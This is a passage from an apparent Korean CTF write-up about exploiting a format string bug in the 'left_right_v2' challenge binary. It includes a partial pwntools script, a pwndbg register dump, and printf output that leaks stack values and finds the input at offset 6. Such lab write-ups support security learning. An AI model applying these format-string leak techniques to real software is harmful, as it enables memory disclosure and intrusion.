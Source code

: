 ```python
    for i in range(3):
        p.sendlineafter('opt >>', str(1))
        p.sendlineafter('way >>', str(2))
        p.sendlineafter('move >>', str(1))

def move():
    right()
    left()

p = process('./left_right_v2')
e = ELF('./left_right_v2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

move()

p.interactive()
```

`main()`에서 `printf(buf);`를 통해 **FSB**가 가능하므로 확인해본다.

```
pwndbg> context
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────
*RAX  0x0
 RBX  0x0
*RCX  0x7f8f3cdb2104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7f8f3d08f8c0 (_IO_stdfile_1_lock) ◂— 0x0
*RDI  0x7ffcd8af5d90 ◂— 0x4141414141414141 ('AAAAAAAA')
*RSI  0x7f8f3d08e7e3 (_IO_2_1_stdout_+131) ◂— 0x8f8c0000000000a /* '\n' */
*R8   0x17
 R9   0x7f8f3d2b14c0 ◂— 0x7f8f3d2b14c0
 R10  0x7f8f3ce40bc0 (_nl_C_LC_CTYPE_class+256) ◂— add al, byte ptr [rax]
*R11  0x246
 R12  0x5584a3d81180 (_start) ◂— endbr64
 R13  0x7ffcd8af5ea0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffcd8af5dc0 —▸ 0x5584a3d81760 (__libc_csu_init) ◂— endbr64
 RSP  0x7ffcd8af5d90 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x5584a3d816c6 (main+262) ◂— call 0x5584a3d81130
```

> payload를 전송하고 `printf`에 break point를 걸고 stack을 확인해본 값이다.

```
Hall Of Fame
=======================
AAAAAAAAA|0x7f8f3d08e7e3|0x7f8f3d08f8c0|0x7f8f3cdb2104|0x17|0x7f8f3d2b14c0|0x4141414141414141|0x7c70257c70257c41|%\xa0^\xaf\xd8\xfc\x7f
=======================
```

우리가 넘겨주는 `AAAAAAAA`는 offset 6에서 가져오는 것을 알 수 있다. 마지막 Memory Leak이 일어나는 것을 알 수 있다. 해당 값이 어떤 것인지 알아본다.
